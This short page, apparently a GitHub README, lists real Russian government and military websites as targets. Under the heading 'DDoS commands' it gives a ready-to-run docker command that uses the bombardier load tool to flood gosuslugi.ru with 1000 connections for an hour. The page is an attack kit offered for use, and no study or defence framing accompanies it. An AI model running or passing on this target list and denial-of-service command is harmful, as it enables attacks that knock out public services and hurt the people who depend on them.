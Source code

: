 # List of public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/

# DDoS commands

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
